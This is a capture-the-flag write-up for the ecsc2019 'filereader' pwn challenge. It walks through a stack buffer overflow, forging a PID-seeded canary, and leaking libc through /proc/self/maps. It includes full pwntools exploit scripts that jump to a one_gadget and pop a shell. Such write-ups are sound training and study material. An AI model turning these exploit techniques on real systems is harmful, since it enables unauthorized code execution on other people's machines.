 ```yaml
---
title: "Filereader"
date: 2019-05-21T19:11:39+02:00
categories:
- write-ups
- ecsc2019
tags:
- pwn
- reverse
keywords:
- pwn
- reverse

metaAlignment: center
autoThumbnailImage: false
summary : "Write-up about the challenge Filereader from the qualification of the ecsc2019 CTF."
---
```


|  Event | Challenge | Category | Points | Solves |
|:----------:|:------------:|:------------:|:------------:|:------------:|
| ecsc2019 |  filereader  |  pwn  | 1000 |  20  |

# TL;DR

We need to exploit binary which read the content of files listed in an other file. A buffer-overflow is present in one of the function and we can leak the address of libc thanks to */proc/self/map* since we can read files. A onegadget is then used to pop a shell.

# Recon

First we check the protections, NX and PIE are enabled which mean we won't be able neither to execute code nor use gadgets to do a ropchain.

{{< image classes="fancybox fig-100 center" src="/images/filereader/sec.png" thumbnail="/images/filereader/sec.png" >}}

The binary ask for a file which should contain a list of other files. Then it will display the content of each file if the permissions are ok. I load the binary into ghidra and spot many interesting things.

First we can spot a buffer overflow in the {{< hl-text orange >}}fscanf{{< /hl-text >}} function which doesn't check for the size of the filename. (*local_118* is a pointer to the file containing the filenames of the files to read and *auStack272* is a 260 bytes long buffer)

{{< image classes="fancybox fig-100 center" src="/images/filereader/fscanf.png" thumbnail="/images/filereader/fscanf.png" >}}

But we have to bypass some custom stack cookies, indeed the binary is not stripped and we can see the {{< hl-text orange >}}canarie{{< /hl-text >}} variable wich is push on the stack at the beginning of the execution : 

{{< image classes="fancybox fig-100 center" src="/images/filereader/canarie1.png" thumbnail="/images/filereader/canarie1.png" >}}

And then checked at the end.

{{< image classes="fancybox fig-100 center" src="/images/filereader/canarie2.png" thumbnail="/images/filereader/canarie2.png" >}}

It's not secure at all since the {{< hl-text orange >}}pid{{< /hl-text >}} can be predicted and so the canarie can be forged to bypass the protection.

# Exploit part1

We now have everything to start writing our exploit, I like python for pwn challenge, but the random implementation of python is different from the one used in C so I wrote a really simple program which return a random number depending of the input like in the binary.

{{< codeblock "rand.c" "C" >}}
#include <stdio.h>

int main(int argc, char **argv)
{
  int pid = atoi(argv[1]);
  int canarie = 0;
  srand(pid);
  canarie = rand();
  printf("%d\n", canarie);
}

{{< /codeblock >}}

Let start writing some python and see :

{{< codeblock "exploit.py" "python" >}}
from pwn import *
import os

FILE = "/tmp/file"

pid = os.getpid()
log.info("pid : "+str(pid))

#Return the canarie from the predicted pid
p = process(['./rand', str(pid+5)])
canarie = p.recvline().strip()
p.close()

log.info("canarie : "+str(canarie))

#size of the buffer containing the filename
offset = 260

payload = ""
payload += "A" * offset
payload += p64(int(canarie))
payload += p32(0x0)             #ebp
payload += p64(0xdeadbeef)      #return address

f = open(FILE, 'w')
f.write(payload)
f.close()

r = process(['./filereader', '/tmp/file'])
print r.recvall()
{{< /codeblock >}}

I found that the filereader binary would be launched with a pid increased by 5 from the python script. Then run it... and we don't have the message saying *Stack smashing detected!* anymore, instead we have a {{< hl-text orange >}}segfault{{< /hl-text >}} due to {{< hl-text orange >}}0xdeadbeef{{< /hl-text >}} address.

{{< image classes="fancybox fig-100 center" src="/images/filereader/test1.png" thumbnail="/images/filereader/test1.png" >}}


# Exploit part2

Ok, but now what ? Where should we jump since we control {{< hl-text orange >}}rip{{< /hl-text >}} ? As I said at the beginning no ropchain and no shellcode because of PIE and NX protections. We need to leak an address from the libc and then found a [onegadget](https://github.com/david942j/one_gadget) to get our shell. This is the tricky part and I stayed stuck here for some days. But wait we have a binary which read files, so we can read {{< hl-text orange >}}/proc/self/maps{{< /hl-text >}} which contain the address of the code, the stack, the heap and the libc !

My idea was to create a file like this : 

{{< codeblock "/tmp/file" "bash" >}}
/proc/self/maps
/tmp/a
/tmp/a
/tmp/a
/tmp/a
[...]
/tmp/a
/tmp/a
/tmp/a
PAAAAAAAAAAAAAAYLOAD
{{< /codeblock >}}

If there is enought */tmp/a* the process will be too busy to read them and we will be able to write our payload from the first part at the end of this file. 

Before we need the address of a onegadget.

{{< image classes="fancybox fig-100 center" src="/images/filereader/onegadget.png" thumbnail="/images/filereader/onegadget.png" >}}

Here is the final exploit :

{{< codeblock "exploit.py" "python" >}}
from pwn import *
import os

FILE = "/tmp/file"
TMP_FILE = "/tmp/a"
MAX = 500

#parse the ouptut of /proc/self/maps
#and return the address of libc
def getAddress(r, line):
    lines = r.split('\n')
    return lines[line].split('-')[0]

pid = os.getpid()
log.info("pid : "+str(pid))

p = process(['./rand', str(pid+5)])
canarie = p.recvline().strip()
p.close()
log.info("canarie : "+str(canarie))

offset = 260

#Write some content to /tmp/a
f = open(TMP_FILE, 'w')
f.write('gonna pwn you')
f.close()

f = open(FILE, 'w')
f.write("/proc/self/maps\n")

#fill the file with /tmp/a
for i in range(0,MAX):
    f.write(TMP_FILE+'\n')

f.close()


r = process(['./filereader', '/tmp/file'])
r.recvline()

maps = r.recvuntil('Attempting to read file')
libc_base = getAddress(maps, 4)

execve = 0x3f306
jump = execve + int(libc_base,16)

payload = ""
payload += "A" * offset
payload += p64(int(canarie))
payload += p32(0x0)
payload += p64(jump)

#a option for append
f = open(FILE, 'a')
f.write(payload)
f.close()

print r.recvline()

#BOOM shell
r.interactive()

{{< /codeblock >}}

# Flag

{{< image classes="fancybox fig-100 center" src="/images/filereader/flag.png" thumbnail="/images/filereader/flag.png" >}}



